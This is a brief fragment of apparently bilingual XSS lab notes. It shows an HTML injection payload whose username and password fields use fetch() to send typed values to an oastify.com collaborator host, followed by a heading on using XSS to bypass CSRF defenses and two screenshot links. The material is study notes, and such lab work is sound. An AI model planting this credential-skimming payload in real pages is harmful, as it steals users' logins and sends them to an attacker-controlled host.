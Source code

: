 - Injection

```html
<input name=username id=username onchange="fetch('https://g2jnv858dctz3ednwiq49u97xy3vrlfa.oastify.com/?username='+this.value)"><br>
<input type=password name=password id=password onchange="fetch('https://g2jnv858dctz3ednwiq49u97xy3vrlfa.oastify.com/?password='+this.value)">
```

## Evasión de CSRF usando XSS  || Exploiting XSS to bypass CSRF defenses

![](/img2/Pasted%20image%2020250726014055.png)

![](/img2/Pasted%20image%2020250726014219.png)
